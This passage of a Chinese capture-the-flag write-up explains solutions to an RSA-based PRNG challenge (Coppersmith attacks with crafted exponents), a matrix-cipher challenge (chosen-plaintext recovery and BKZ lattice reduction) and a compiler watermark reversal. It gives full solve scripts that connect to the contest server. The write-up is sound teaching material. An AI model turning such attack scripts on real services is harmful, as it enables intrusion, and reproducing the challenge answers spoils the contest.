                            t.append(And(arrange[u][0][x] == i, arrange[u][1][y] == j, arrange[u][2][z] == k))
            tot += z3.If(Or(*t), z3.IntVal(1), z3.IntVal(0))
for i in range(bound + 1):
    for j in range(bound + 1):
        t1 = []
        t2 = []
        t3 = []
        for u in range(num_constraints):
            for x in range(2):
                for y in range(2):
                    t1.append(And(arrange[u][0][x] == i, arrange[u][1][y] == j))
                    t2.append(And(arrange[u][0][x] == i, arrange[u][2][y] == j))
                    t3.append(And(arrange[u][1][x] == i, arrange[u][2][y] == j))
        tot += z3.If(Or(*t1), z3.IntVal(1), z3.IntVal(0))
        tot += z3.If(Or(*t2), z3.IntVal(1), z3.IntVal(0))
        tot += z3.If(Or(*t3), z3.IntVal(1), z3.IntVal(0))
for i in range(bound + 1):
    t1 = []
    t2 = []
    t3 = []
    for u in range(num_constraints):
        for x in range(2):
            t1.append(arrange[u][0][x] == i)
            t2.append(arrange[u][1][x] == i)
            t3.append(arrange[u][2][x] == i)
    tot += z3.If(Or(*t1), z3.IntVal(1), z3.IntVal(0))
    tot += z3.If(Or(*t2), z3.IntVal(1), z3.IntVal(0))
    tot += z3.If(Or(*t3), z3.IntVal(1), z3.IntVal(0))

solver.add(tot <= 136)

if solver.check() == sat:
    m = solver.model()
    s2 = (m[i].as_long()for i in s)
    for i in range(num_constraints):
        for j in range(num_dims):
            for k in range(3):
                if k == 2:
                    arrange[i][j][k] = -1
                else:
                    arrange[i][j][k] = next(s2)
    arrange.sort()
    score = len(set((x, y, z) for i in range(num_constraints) for x, y, z in itertools.product(*arrange[i])))
    print(score)
    s3 = []
    for i in range(num_constraints):
        for j in range(num_dims):
            for k in range(3):
                if k == 2:
                    arrange[i][j][k] = -1
                else:
                    s3.append(arrange[i][j][k])
    print(''.join(map(str, s3)))
```

我开始看到这题的时候，尝试理解了一会，未能完全这个模型表达了什么。

那既然我没理解，总之丢给 z3 试试呗。第一个 flag 是轻松拿到了。

然后我试图加上了一些稍微优化过的，算 score 的代码。

接下来分别放到两台机子上跑 flag2 和 flag3。

半小时后，flag2 出了，但是 flag3 没有。重跑了一下 flag3，结果一下就出了。

可能之前运气不好，导致 z3 刚好搜索到了无解的分支吧。

# 黑客马拉松

阅读源码，发现题目大致如下：

- 用户给出 RSA 的 $p,q,e$ 参数，程序会检查一些常见的攻击方式。
- 程序随机生成一个 $state$，然后执行若干次 $state=\text{pow}(state,e,N)$。最后告诉用户 $state$ 的最低 $k$ 位。
- 对于任务 1，会执行 100 次。
- 对于任务 2，只会执行 1 次，但是保证初始的 $state<2^{Nbits-k}$。

这里 $k$ 的大小和 $e$ 的大小有关，当 $e$ 足够大时，$k=Nbits-96$。

## 教练，有人抢跑！

不妨设拿到的连续两个 $state$ 为 $a,b$，那么有 $b+y\cdot 2^k\equiv (a+x\cdot 2^k)^e\pmod N$。其中 $x,y<2^{Nbits-k}$。

假如 $e$ 足够小而 $k$ 足够大，那么可以用 [多元 Coppersmith](https://github.com/defund/coppersmith) 来求解。

但是显然题目已经防住了这一点。

那么，如果是两个不相邻的 $state$ 呢？假如 $b$ 是 $a$ 后面第三个，那么有 $b+y\cdot 2^k\equiv (a+x\cdot 2^k)^{e^3}\pmod N$。

假如 $e^3$ 足够小，那么也能类似计算。

当 $\varphi(N)\bmod 3\neq 0$，解方程 $e^3\equiv 3\pmod {\varphi(N)}$，就可以找到一个合适的 $e$，随后调用上面代码里来求解即可。

```python
from sage.all import *
from pwn import *
from ast import literal_eval
import itertools


# https://github.com/defund/coppersmith/blob/master/coppersmith.sage
def small_roots(f, bounds, m=1, d=None):
    if not d:
        d = f.degree()

    if isinstance(f, Polynomial):
        x, = polygens(f.base_ring(), f.variable_name(), 1)
        f = f(x)

    R = f.base_ring()
    N = R.cardinality()

    f /= f.coefficients().pop(0)
    f = f.change_ring(ZZ)

    G = Sequence([], f.parent())
    for i in range(m + 1):
        base = N ** (m - i) * f ** i
        for shifts in itertools.product(range(d), repeat=f.nvariables()):
            g = base * prod(map(power, f.variables(), shifts))
            G.append(g)

    B, monomials = G.coefficient_matrix()
    monomials = vector(monomials)

    factors = [monomial(*bounds) for monomial in monomials]
    for i, factor in enumerate(factors):
        B.rescale_col(i, factor)

    B = B.dense_matrix().LLL()

    B = B.change_ring(QQ)
    for i, factor in enumerate(factors):
        B.rescale_col(i, 1 / factor)

    H = Sequence([], f.parent().change_ring(QQ))
    for h in filter(None, B * monomials):
        H.append(h)
        I = H.ideal()
        if I.dimension() == -1:
            H.pop()
        elif I.dimension() == 0:
            roots = []
            for root in I.variety(ring=ZZ):
                root = tuple(R(root[var]) for var in f.variables())
                roots.append(root)
            return roots

    return []


context.log_level = 'debug'


def rdp(nbits=512):
    while True:
        p = random_prime(2 ** nbits - 1, False, 2 ** (nbits - 1))
        if ZZ((p - 1) // 2).is_prime():
            t = (p - 1) // 2
            r = t - 1
            if r % 3:
                inv3 = pow(3, -1, r)
                u = pow(3, inv3, t)
                assert pow(u, 3, t) == 3
                return p, t, u


while True:
    p, pt, pu = rdp()
    q, qt, qu = rdp()
    if int(p * q).bit_length() == 1024:
        break
a = CRT_list([pu, qu, 3], [pt, qt, 4])
assert pow(2, a**3, p * q) == pow(2, 3, p * q)
print(p, q, a)
p = int(p)
q = int(q)
a = int(a)

r = remote('202.38.93.111', 20230)
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'p: ', str(p).encode())
r.sendlineafter(b'q: ', str(q).encode())
r.sendlineafter(b'A large prime factor of p-1: ', str((p - 1) // 2).encode())
r.sendlineafter(b'A large prime factor of q-1: ', str((q - 1) // 2).encode())
r.sendlineafter(b'e: ', str(a).encode())

k = 1024 - max(int(1024 * 2 // a), 96)

r.sendlineafter(b'Choose mission: ', b'1')
nums = literal_eval(r.recvline().strip().decode())
print(nums[0])

F = PolynomialRing(Zmod(p * q), names=['x', 'y'])
x, y = F.gens()
f = (x * 2**k + nums[0])**3 - nums[3] - y * 2**k
x, y = small_roots(f, [2**100, 2**100])[0]

state = x * 2**k + nums[0]
for _ in range(99):
    state = pow(state, a, p * q)

r.sendlineafter(b'Predict PRNG state: ', str(int(state)).encode())
r.interactive()
```

## 一発勝負

令 $a$ 为初始状态，$b$ 为第一次的输出，则有 $b+x\equiv a^e\pmod N$。其中 $a,x<2^{Nbits-k}$。

假如 $e$ 足够小，那么也能用之前的方法求解。

注意到，由于它只运行一次，后面的 small loop 检查就没用了。

这时可以让 $e=d=\varphi(N)-1$，于是方程可以写成 $a(b+x)\equiv 1\pmod N$。

同样用上面的方法求解即可。

```python
from sage.all import *
from pwn import *
from ast import literal_eval
import itertools


# https://github.com/defund/coppersmith/blob/master/coppersmith.sage
def small_roots(f, bounds, m=1, d=None):
    if not d:
        d = f.degree()

    if isinstance(f, Polynomial):
        x, = polygens(f.base_ring(), f.variable_name(), 1)
        f = f(x)

    R = f.base_ring()
    N = R.cardinality()

    f /= f.coefficients().pop(0)
    f = f.change_ring(ZZ)

    G = Sequence([], f.parent())
    for i in range(m + 1):
        base = N ** (m - i) * f ** i
        for shifts in itertools.product(range(d), repeat=f.nvariables()):
            g = base * prod(map(power, f.variables(), shifts))
            G.append(g)

    B, monomials = G.coefficient_matrix()
    monomials = vector(monomials)

    factors = [monomial(*bounds) for monomial in monomials]
    for i, factor in enumerate(factors):
        B.rescale_col(i, factor)

    B = B.dense_matrix().LLL()

    B = B.change_ring(QQ)
    for i, factor in enumerate(factors):
        B.rescale_col(i, 1 / factor)

    H = Sequence([], f.parent().change_ring(QQ))
    for h in filter(None, B * monomials):
        H.append(h)
        I = H.ideal()
        if I.dimension() == -1:
            H.pop()
        elif I.dimension() == 0:
            roots = []
            for root in I.variety(ring=ZZ):
                root = tuple(R(root[var]) for var in f.variables())
                roots.append(root)
            return roots

    return []


context.log_level = 'debug'

p = 10905368688585963858550248922087907135440752210620809960848625068497178057316857501885493297815171986862478457703181589743540685342136456600033789148199759
q = 10048010359353547130580080991744730838040893380799552777616936277613279522603205721937811712772761507842068721953064194417065415788324848647902872723714263
e = (-1) % ((p - 1) * (q - 1))

# r = process(['python', 'rsa_prng.py'])
r = remote('202.38.93.111', 20230)
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'p: ', str(p).encode())
r.sendlineafter(b'q: ', str(q).encode())
r.sendlineafter(b'A large prime factor of p-1: ', str((p - 1) // 2).encode())
r.sendlineafter(b'A large prime factor of q-1: ', str((q - 1) // 2).encode())
r.sendlineafter(b'e: ', str(e).encode())

k = 1024 - max(int(1024 * 2 // e), 96)
print(k)

r.sendlineafter(b'Choose mission: ', b'2')
nums = literal_eval(r.recvline().strip().decode())

F = PolynomialRing(Zmod(p * q), names=['x', 'y'])
x, y = F.gens()
f = x * (nums[0] + y * 2**k) - 1
x, y = small_roots(f, [2**100, 2**100])[0]

state = pow(x, e, p * q)

r.sendlineafter(b'Predict PRNG state: ', str(int(state)).encode())
r.interactive()
```

# 不可加密的异世界 2

题目生成了一个矩阵 $M$，而加密就是把 $M$ 乘上对应向量。

## 希尔混淆

设两个向量 $\mathbf{v}=(v_1,\dots,v_n),\mathbf{u}=(u_1,\dots,u_n)$，而对大部分 $i$，$u_i=v_i$，对某个 $i=x$，$u_i=v_i+1$。

假如我们得到了 $M\mathbf{v}$ 和 $M\mathbf{u}$，那么相减就能得到 $M$ 的第 $x$ 列。

不妨假设 flag 中全是 ascii 字符，而我们的第一个输入中也是 ascii 字符，这样就能保证 $v_i<128$。

而 $u_x=v_x+1$ 也改成 $u_x=v_x+128$，这样原来的输入中，也就是对应的位置 $+128$，异或 flag 不再影响我们计算。

但是还有一个小问题，题目给出加密后的串时，如果某个位置是 256，也会变成 0。于是对于一个 0，我们无法准确知道它本来是什么。

对于这个问题，可以先不停随机 $\mathbf{v}$，直到 $M\mathbf{v}$ 不含 0，这时对每个 $x\in[1,n]$ 尝试求 $M\mathbf{u}$。$M\mathbf{u}$ 含 0 的再留到下一个 $\mathbf{v}$ 处理。

## 希尔之核

本题需要求一个 $M\mathbf{v}=\mathbf{v}$ 的解。

稍微变形，得到 $(M-I)\mathbf{v}=\mathbf{0}$。可以用高斯消元求解，也可以参考下一题的解法。

## 希尔之秘

本题需要求一个 $M\mathbf{v}=\mathbf{v}$ 的解，并且 $v_i\in[32,127)$。

从变形后的结果 $(M-I)\mathbf{v}=\mathbf{0}$ 来看，可行的解是一个 [格](<https://en.wikipedia.org/wiki/Lattice_(group)>)。我们如果在这个格里面找到一个离 $\mathbf{u}=(79,79,\dots,79)$ 最近的向量，那么它很可能符合题目要求。

而解方程的步骤也可以通过格基规约来实现，具体构造见代码。

## 代码

```python
from sage.all import *
from pwn import *
import random

# r = process(['sage', 'unencryptable_world2.sage'])
r = remote('202.38.93.111', 22000)
r.sendlineafter(b'Please input your token: ', b'xxx')


def enc(s):
    r.sendlineafter(b'>', s.hex().encode())
    r.recvuntil(b'[+] you ciphertext : ')
    return bytes.fromhex(r.recvline().strip().decode())


m = [[None] * 128 for _ in range(128)]
while True:
    if all((x is not None for y in m for x in y)):
        break
    msg = [random.randint(0, 127)] * 128
    a = enc(bytes(msg))
    if any((x == 0 for x in a)):
        continue
    for i in range(128):
        if any((m[x][i] is None for x in range(128))):
            msg[i] ^= 128
            b = enc(bytes(msg))
            msg[i] ^= 128
            for j in range(128):
                if a[j] and b[j]:
                    v = (b[j] - a[j]) * 255 % 257
                    if m[j][i] is not None:
                        assert m[j][i] == v
                    m[j][i] = v
    print('current known values:', sum((x is not None for y in m for x in y)))

F = GF(257)
m = Matrix(F, m)
minv = m**-1
print('flag1:', bytes(map(lambda x, y: x ^ y, bytes(minv * vector(F, a)), msg)))

mi = Matrix(F, [[int(i == j)for j in range(128)]for i in range(128)])

want = (0x20 + 0x7f) // 2
h = list(map(int, (m - mi) * vector(F, [want] * 128)))

N = 10000
M = []
for i in range(128):
    M.append([0] * 128 + [N * 257 * (j == i)for j in range(128)] + [0])
for i in range(128):
    M.append([int(j == i)for j in range(128)] + [int(m[j, i] - (i == j)) * N for j in range(128)] + [0])
M.append([0] * 128 + [h[j] * N for j in range(128)] + [N**2])
M = Matrix(ZZ, M)
print('starting BKZ...')
M = M.BKZ()
for line in M:
    if line[-1]:
        if line[-1] < 0:
            line = -line
        ans = vector(F, map(lambda x: x + want, line[:128]))
ans = bytes(ans)

print('find solution:', ans.decode())
r.sendlineafter(b'>', ans.hex().encode())
r.interactive()
```

# 旧日之痕

通过题面可知，若干字符串作为水印被嵌入到程序中。

## 逆向水印算法

首先，通过查看 strings 等方法，可以发现主要的代码在 `sub_95C0` 中：



该函数调用 `sub_8FFF` 将字符串转化为 `std::vector<bool>`，然后遍历字节码中的每个函数，将其放入 vector 中。每个函数会消耗若干 bits。

`sub_8FFF` 内容为：



它会根据一个查找表，把 base64 的字符还原回去，然后往 vector 里 push 每一位。最后还会用长度和奇偶性作为种子，用 `std::mt19937` shuffle 整个 bitset。

回到主函数：



接下来他会对每个之前准备的函数，拿出一段 bits，调用 `sub_9313` 对他打水印。`sub_9313` 内容如下：



它先用输入的 `int128`，生成了一个排列，然后对函数里的 basic block 重新排列。

到此，水印逻辑就结束了。

## 基本块的识别

如果用 IDA 打开一个程序，可以看到这样的方块，它们就是一个个基本块：



但是，如果每个程序都调用 IDA 来计算，还是比较麻烦的。

观察发现，在 llvm ir 中，每个块结尾要么是 `br i1`，要么是 `br`，要么是 `ret`。而这编译到 x86 里，则分别对应了：

```plain
第一种：
jcc label1
jmp label2 （此句可选）

第二种：
jmp label3 （此句可选）

第三种：
ret
```

假如要跳转的位置刚好就是下一个块，那么会省掉一个跳转指令。不过在这种情况下，下一个块一定也有别的地方会跳转进来。

根据这些原则，就能识别出所有的块了，并且和 llvm ir 中的一一对应。

## MT19937 变换表

由于在 Python 中实现 MT19937 不太方便，于是我想用 C++ 把所有的变换表都求了出来：

```cpp
#include<bits/stdc++.h>

const int tab[128]={0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0x39, 0x14, 0xff, 0x4, 0xb, 0x2d, 0x26, 0x2b, 0x38, 0x27, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0x6, 0x24, 0x29, 0x3f, 0xc, 0x15, 0x3a, 0xa, 0x28, 0x21, 0x3b, 0x36, 0xf, 0x3, 0x1f, 0x5, 0x2f, 0x19, 0x3d, 0x2, 0x1a, 0x22, 0x9, 0x35, 0x12, 0x1, 0xff, 0xff, 0xff, 0xff, 0x1d, 0xff, 0x37, 0x0, 0x32, 0x8, 0x2e, 0x11, 0x13, 0x23, 0x7, 0x3e, 0x34, 0x10, 0x3c, 0x20, 0x2c, 0xd, 0x16, 0x2a, 0x33, 0x25, 0x1e, 0x18, 0x30, 0x17, 0xe, 0x1b, 0x31, 0xff, 0x1c, 0xff, 0xff};

int main()
{
	for(int g=0;g<64;g++){
		std::mt19937 ran(g);
		std::vector<int>a;
		for(int i=0;i<(g%32)*6;i++)a.push_back(i);
		std::shuffle(a.begin(),a.end(),ran);
		if(!a.size())a.push_back(-1);
		for(int i=0;i<a.size();i++)printf("%d%c",a[i],i+1==a.size()?'\n':' ');
	}
}
```

## 解题脚本

```python
import subprocess


def disasm(fn):
    s = subprocess.getoutput('objdump -M intel -d ' + fn).split('\n')
    res = []
    i = 0
    while 'Disassembly of section .text:' not in s[i]:
        i += 1
    i += 3
    funcs = []
    while s[i]:
        addr = int(s[i][:8].strip(), 16)
        insn = s[i][32:].strip()
        if s[i + 1] and not s[i + 1][32:]:
            if not s[i + 2][32:]:
                i += 3
            else:
                i += 2
        else:
            i += 1
        if '#' in insn:
            insn = insn.split('#')[0].strip()
        if ' ' in insn:
            a, b = insn.split(' ', 1)
            a, b = a.strip(), b.strip().split(',')
        else:
            a = insn
            b = list()
        # print(hex(addr), a, b)
        cur = (addr, a, b)
        if a == 'sub' and b[0] == 'rsp':
            funcs.append([])
        if len(funcs):
            funcs[-1].append(cur)
    return funcs


def get_blocks(func, fmap):
    is_block_start = [False] * len(func)
    reachable = [False] * len(func)
    is_block_start[0] = True
    reachable[0] = True
    insn_map = {}
    for i, (addr, *_) in enumerate(func):
        insn_map[addr] = i
    for i, (addr, op, args) in enumerate(func):
        # print(hex(addr), op)
        if op == 'jmp' or op == 'ret':
            if i + 1 < len(func):
                is_block_start[i + 1] = True
        if op[0] == 'j':
            # print(args[0])
            if ' ' in args[0]:
                t = args[0].split(' ', 1)[0]
            else:
                t = args[0]
            t = int(t, 16)
            args[0] = t
            if t >= 0x1100:
                is_block_start[insn_map[t]] = True
            if i + 1 < len(func):
                is_block_start[i + 1] = True
    q = [0]
    while len(q):
        i = q.pop(0)
        addr, op, args = func[i]
        if op[0] == 'j':
            if args[0] >= 0x1100 and not reachable[insn_map[args[0]]]:
                reachable[insn_map[args[0]]] = True
                q.append(insn_map[args[0]])
        if op != 'jmp' and op != 'ret':
            if i + 1 < len(func) and not reachable[i + 1]:
                reachable[i + 1] = True
                q.append(i + 1)
    blocks = []
    bid = []
    for i, (addr, op, args) in enumerate(func):
        if is_block_start[i]:
            blocks.append({
                'insn_count': {},
                'to': set(),
                'from': set(),
                'start': hex(addr),
            })
        bid.append(len(blocks) - 1)
        if op != 'jmp':
            ic = blocks[-1]['insn_count']
            to = op
            if op[0] == 'j':
                to = 'j'
            elif op == 'mov' and args[-1] == '0xa8':
                to = '_mov_0xa8'
            if to not in ic:
                ic[to] = 0
            ic[to] += 1
    for i, (addr, op, args) in enumerate(func):
        if op != 'jmp' and op != 'ret' and i + 1 < len(func) and bid[i + 1] != bid[i]:
            blocks[bid[i]]['to'].add(bid[i + 1])
            blocks[bid[i + 1]]['from'].add(bid[i])
        if op[0] == 'j':
            if args[0] >= 0x1100:
                j = insn_map[args[0]]
                blocks[bid[i]]['to'].add(bid[j])
                blocks[bid[j]]['from'].add(bid[i])
    blocks2 = []
    bmap = {}
    for i, (addr, op, args) in enumerate(func):
        if is_block_start[i]:
            # print(i, reachable[i], blocks[bi])
            if reachable[i] and len(blocks[bid[i]]['insn_count']):
                blocks2.append(blocks[bid[i]])
                bmap[bid[i]] = len(blocks2) - 1
            else:
                x = bid[i]
                xto = blocks[x]['to']
                xfrom = blocks[x]['from']
                # print(xto, xfrom)
                assert len(xto) <= 1 and len(xfrom) <= 1
                for y in xto:
                    blocks[y]['from'].remove(x)
                for y in xfrom:
                    blocks[y]['to'].remove(x)
                for y in xfrom:
                    for z in xto:
                        blocks[y]['to'].add(z)
                        blocks[z]['from'].add(y)
    for b in blocks2:
        if 'mov' in b['insn_count']:
            b['insn_count'].pop('mov')
        b['from'] = {bmap[x]for x in b['from']}
        b['to'] = {bmap[x]for x in b['to']}
    return blocks2


def process_asm(s):
    func_map = {}
    for i, func in enumerate(s):
        func_map[func[0][0]] = i
    res = []
    for func in s:
        res.append(get_blocks(func, func_map))
    return res


def dict_match(a, b):
    for x in a:
        if x not in b:
            return False
    for x in b:
        if x not in a:
            return False
        if a[x] != b[x]:
            return False
    return True


def match_blocks(a, b):
    if 0:
        for i, x in enumerate(a):
            print(i, x)
        print()
        for i, x in enumerate(b):
            print(i, x)
        print()
        # exit()
    assert len(a) == len(b)
    r = []
    for i in range(len(b)):
        qq = []
        for j in range(len(a)):
            if dict_match(a[j]['insn_count'], b[i]['insn_count']):
                qq.append(j)
        # print(i, len(qq))
        assert len(qq)
        r.append(qq)

    def matchft(a, b):
        if len(a) != len(b):
            return False
        if not len(a):
            return True
        for i in range(len(b)):
            if a[0] in r[b[i]]:
                if matchft(a[1:], b[:i] + b[i + 1:]):
                    return True
        return False
    while True:
        if all(len(x) == 1 for x in r):
            return [x[0]for x in r]
        for i in range(len(b)):
            if len(r[i]) == 1:
                continue
            nr = []
            for j in r[i]:
                for _ in range(1):
                    if not matchft(list(a[j]['from']), list(b[i]['from'])):
                        break
                    if not matchft(list(a[j]['to']), list(b[i]['to'])):
                        break
                    nr.append(j)
            assert len(nr)
